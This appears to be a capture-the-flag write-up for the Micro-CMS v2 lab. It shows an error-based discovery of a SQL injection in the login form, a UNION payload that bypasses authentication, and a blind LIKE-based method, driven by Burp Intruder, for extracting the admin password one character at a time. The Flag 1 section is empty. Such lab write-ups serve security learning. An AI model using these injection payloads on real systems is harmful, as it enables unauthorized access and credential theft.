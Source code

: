 # Micro-CMS v2
### Flag 0
* Using '<:;>" as username and password produces the following error
```
 Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ';'' at line 1")
```
* Use *' UNION SELECT '111' as password* as the username and *111* as password
* Open the private page to get the flag

### Flag 1


### Flag 2
* Use *' OR password like %x#* as username and attack using Burp Intruder. Change x from a-z and filter out all responses that contain *Unknown User* in the response. This would leave only 1 response which contains *Invalid Password* in the reponse. This is the last character of the password.
* Replace x by the last character of the password. Now use *' OR password like %yx#* where y varies from a-z. This way get the 2nd last character of password. Continue this process to build the password character by character.
* On getting the password use *' OR password = 'password'#* as username and *password* as password and login to get the flag.